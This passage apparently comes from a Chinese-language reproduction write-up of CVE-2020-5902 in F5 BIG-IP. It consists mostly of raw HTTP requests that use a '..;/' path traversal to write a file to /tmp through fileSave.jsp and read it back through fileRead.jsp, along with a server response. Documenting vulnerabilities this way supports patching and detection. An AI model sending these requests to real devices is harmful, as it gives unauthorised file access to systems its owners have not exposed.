  > Request

```http
POST /tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp HTTP/1.1
Host: 192.168.1.245
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: JSESSIONID=472D937EAA86CEF84A8C1C5C6C5EEDBD;
X-Forwarded-For: 8.8.8.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

fileName=/tmp/1.txt&content=CVE-2020-5902
```

> Response

```http
HTTP/1.1 200 OK
Date: Fri, 10 Jul 2020 15:54:30 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=16070400; includeSubDomains
Content-Type: text/html;charset=ISO-8859-1
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
Content-Length: 4
Connection: close
```

截图如下

![12](12.png)

读取上传文件

> Request

```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/tmp/1.txt HTTP/1.1
Host: 192.168.1.245
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: JSESSIONID=472D937EAA86CEF84A8C1C5C6C5EEDBD;
X-Forwarded-For: 8.8.8.8
Connection: close
```

